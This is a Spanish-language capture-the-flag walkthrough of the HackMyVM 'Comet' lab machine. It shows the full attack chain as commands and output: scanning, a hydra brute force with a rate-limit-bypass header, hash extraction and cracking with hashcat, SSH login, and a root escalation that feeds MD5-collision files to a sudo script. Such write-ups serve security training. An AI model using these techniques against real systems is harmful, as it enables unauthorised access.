


# Comet HackMyVM

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.35

## Escaneos

Realizamos scaneos de manera rapida

```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.0.2.35
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-27 08:43 EDT
Nmap scan report for 10.0.2.35
Host is up (0.00021s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:87:C6:C5 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.01 seconds
```

## Buscando mas directorios

Entrando a la pagina vemos que los directorios estan creados y mantienen su extension como ``.php .html`` Asi que correre con gobuster para ver si encuentro mas directorios

```bash
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.35 -x .php,.html,.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.35
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2023/03/27 09:01:43 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 274]
/images               (Status: 301) [Size: 307] [--> http://10.0.2.35/images/]
/index.html           (Status: 200) [Size: 7097]
/.php                 (Status: 403) [Size: 274]
/contact.html         (Status: 200) [Size: 5886]
/about.html           (Status: 200) [Size: 7024]
/blog.html            (Status: 200) [Size: 8242]
/support.html         (Status: 200) [Size: 6329]
/login.php            (Status: 200) [Size: 1443]
/ip.txt               (Status: 200) [Size: 0]
/js                   (Status: 301) [Size: 303] [--> http://10.0.2.35/js/]
/.php                 (Status: 403) [Size: 274]
/.html                (Status: 403) [Size: 274]
/server-status        (Status: 403) [Size: 274]
Progress: 879479 / 882244 (99.69%)
===============================================================
2023/03/27 09:02:37 Finished
===============================================================
```

Al ingresar al login e intentar enviar un prueba de login luego como que la pagina se cae o no me deja hacer mas solicitudes y tenemos que esperar un rato a que nos deje hacer nuevamente otra solicitud

De la misma manera viendo un poco mas la pagina vimos que existen dos usuarios ``admin | Owner``


## Fuerza bruta
Entonces decidi intentar un ataque de fuerza bruta junto con hydra.

```bash
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.35 http-post-form "/login.php:username=admin&password=^PASS^:H=X-ORIGINATING-IP:test:F=Invalid"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-27 09:21:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.0.2.35:80/login.php:username=admin&password=^PASS^:H=X-ORIGINATING-IP:test:F=Invalid
[STATUS] 4591.00 tries/min, 4591 tries in 00:01h, 14339808 to do in 52:04h, 16 active
[80][http-post-form] host: 10.0.2.35   login: admin   password: *******io
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-27 09:23:17
```
## Enumeracion de usuario para ssh

Logeandonos nos envia a una nueva pagina con un monton de logs asi que nos descargamos todo.

```bash
❯ wget -r http://10.0.2.35/logFire/
❯ ls  
10.0.2.35
❯ cd 10.0.2.35/logFire
❯ ls
firewall.log     firewall.log.13  firewall.log.18  firewall.log.22  firewall.log.27  firewall.log.31  firewall.log.36  firewall.log.40  firewall.log.45  firewall.log.5   firewall.log.9
firewall.log.1   firewall.log.14  firewall.log.19  firewall.log.23  firewall.log.28  firewall.log.32  firewall.log.37  firewall.log.41  firewall.log.46  firewall.log.50  firewall_update
firewall.log.10  firewall.log.15  firewall.log.2   firewall.log.24  firewall.log.29  firewall.log.33  firewall.log.38  firewall.log.42  firewall.log.47  firewall.log.6
firewall.log.11  firewall.log.16  firewall.log.20  firewall.log.25  firewall.log.3   firewall.log.34  firewall.log.39  firewall.log.43  firewall.log.48  firewall.log.7
firewall.log.12  firewall.log.17  firewall.log.21  firewall.log.26  firewall.log.30  firewall.log.35  firewall.log.4   firewall.log.44  firewall.log.49  firewall.log.8
```

Buscando entre la informacion, me decido a buscar palabras clave como login, allowed, successfull

```bash
❯ cat * | grep "login"
❯ cat * | grep "allowed"
❯ cat * | grep "Login"
❯ cat * | grep "Allowed"
2023-02-19 16:35:31 192.168.1.10 | 192.168.1.50 | Allowed | Inbound connection | Joe
```

Y encontramos un posible nombre de usuario llamado Joe

Al intentar leer el firewall_update vemos que es un binario
```bash
❯ cat firewall_update 
G��VǓ�GNU�=���-�=�=�888 XXXDDS�td888 P�tdP P P ,,Q�tdR�td�-�=�=@@/lib64/ld-linux-x86-64.so.2GNU��GNUȴ��AO��G;
         �
          �e�m{ MF R, z��Yk"__gmon_start___ITM_deregisterTMCloneTable_ITM_registerTMCloneTableSHA256putsstrlen__libc_start_main__cxa_finalizesprintf__isoc99_scanfstrcmplibcrypto.so.3libc.s�u�i     ����P@@@�?�?�?�?4GLIBC_2.7GLIBC_2.2.5�  +p������ii
                         �?
                           @@@ (@ 0@
H�H��/H��t��H���5�/�%�/@�%�/h������%�/h������%�/h������%�/h�����%�/h�����%�/h�����%�/h�����%2/f�1�I��^H��H���PTE1�1�H�=��/�f.�@H�=a/H�Z/H9�tH��.H��t        �����H�=1/H�5*/H)�H��H��?H��H�H��tH��.H����fD�����=�.u+UH�=r.H��t
                                 H�=�.�)����d�����.]������w���UH��H���H�b8728ab8H�1a3c3391H��`���H��h���H�f5f63f39H�da72ee89H��p���H��x���H�f43f9a9fH�429bc8cfH�E�H�U�H�e858f804H�8eaad2b1H�H���C������H�H��Enter password: %s%02xFirewall successfully updatedIncorrect password,
```

```bash
❯ strings firewall_update               
/lib64/ld-linux-x86-64.so.2
__gmon_start__
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable

[....Mas texto...]

b8728ab8H
1a3c3391H
f5f63f39H
da72ee89H
f43f9a9fH
429bc8cfH
e858f804H
8eaad2b1H
Enter password: 
%02x
Firewall successfully updated
Incorrect password

[....Mas texto...]

_fini
SHA256@OPENSSL_3.0.0
_ITM_deregisterTMCloneTable

[....Mas texto...]
```

Del firewall_update veo que tenemos un hash y que esta en sha265

Entonces me copio el hash a mi maquina quitandole las ``H`` y poniendolo en una sola linea 

```bash
❯ cat hash   
b8728ab81a3c3391f5f63f39da72ee89f43f9a9f429bc8cfe858f8048eaad2b1
```

## Hashcat

Asi que vamos a intentar usar hashcat

```txt
Para utilizar hashcat con SHA256, necesitas ejecutar el siguiente comando en la línea de comandos:

hashcat -m 1400 <hash> <wordlist>
Donde <hash> es el hash SHA256 que deseas crackear y <wordlist> es la lista de palabras que se utilizará para intentar descifrar el hash1.
```

```bash
❯ hashcat -m 1400 hash /usr/share/wordlists/rockyou.txt
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

b8728ab81a3c3391f5f63f39da72ee89f43f9a9f429bc8cfe858f8048eaad2b1:*********an
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: b8728ab81a3c3391f5f63f39da72ee89f43f9a9f429bc8cfe85...aad2b1
Time.Started.....: Mon Mar 27 10:33:07 2023 (0 secs)
Time.Estimated...: Mon Mar 27 10:33:07 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   209.6 kH/s (0.39ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10240/14344385 (0.07%)
Rejected.........: 0/10240 (0.00%)
Restore.Point....: 8192/14344385 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: total90 -> 1asshole
Hardware.Mon.#1..: Util: 23%

Started: Mon Mar 27 10:32:39 2023
Stopped: Mon Mar 27 10:33:09 2023
```

## SSH

Usando hydra me doy cuenta que el usuario es joe en minuscula y no mayuscula como me pensaba

```bash
❯ hydra -l joe -p *********an 10.0.2.35 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - 

[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://10.0.2.35:22/
[22][ssh] host: 10.0.2.35   login: joe   password: *********an
```

### user flag

```bash
joe@comet:~$ ls
coll  user.txt
joe@comet:~$ cat user.txt
*******************e6d0991c82616
```

## Escalada de Privilegios

Viendo un poco mas de la maquina

```bash
joe@comet:~$ sudo -l
Matching Defaults entries for joe on comet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on comet:
    (ALL : ALL) NOPASSWD: /bin/bash /home/joe/coll
```

```bash
joe@comet:~$ cat coll 
#!/bin/bash
exec 2>/dev/null

file1=/home/joe/file1
file2=/home/joe/file2
md5_1=$(md5sum $file1 | awk '{print $1}')
md5_2=$(md5sum $file2 | awk '{print $1}')


if      [[ $(head -n 1 $file1) == "HMV" ]] && 
	[[ $(head -n 1 $file2) == "HMV" ]] && 
	[[ $md5_1 == $md5_2 ]] && 
	[[ $(diff -q $file1 $file2) ]]; then
    chmod +s /bin/bash
    exit 0
else
    exit 1
fi
```

Basicamente el script verifica si dos archivos específicos tienen ciertas propiedades y establece el bit setuid para el shell Bash si todas las propiedades se cumplen.

Descargamos un programa para crear un archivo identico al md5 que creamos 
https://github.com/seed-labs/seed-labs/raw/master/category-crypto/Crypto_MD5_Collision/Labsetup/md5collgen

```bash
joe@comet:~$ wget https://github.com/seed-labs/seed-labs/raw/master/category-crypto/Crypto_MD5_Collision/Labsetup/md5collgen

Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3338360 (3.2M) [application/octet-stream]
Saving to: ‘md5collgen’

md5collgen                                     100%[====================================================================================================>]   3.18M  --.-KB/s    in 0.04s   

2023-03-27 17:05:50 (81.5 MB/s) - ‘md5collgen’ saved [3338360/3338360]

joe@comet:~$ chmod +x md5collgen

joe@comet:~$ echo HMV > file1

joe@comet:~$ ./md5collgen file1 
MD5 collision generator v1.5
by Marc Stevens (http://www.win.tue.nl/hashclash/)

Using output filenames: 'msg1.bin' and 'msg2.bin'
Using prefixfile: 'file1'
Using initial value: 66fdfd128fcadfc4946a54c7a85dc86d

Generating first block: ..............................................................................................................
Generating second block: S00..........
Running time: 108.26 s
```

```bash
joe@comet:~$ rm file1 
joe@comet:~$ mv msg1.bin file1
joe@comet:~$ mv msg2.bin file2
joe@comet:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
joe@comet:~$ sudo /bin/bash /home/joe/coll
joe@comet:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Vemos que funciono entonces solo nos queda subir de privilegios

```bash
joe@comet:~$ bash -p
bash-5.1# id
uid=1000(joe) gid=1000(joe) euid=0(root) egid=0(root) groups=0(root),1000(joe)
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
*******************1c0d869e2e40c
```

Y de esta manera terminamos la maquina de Comet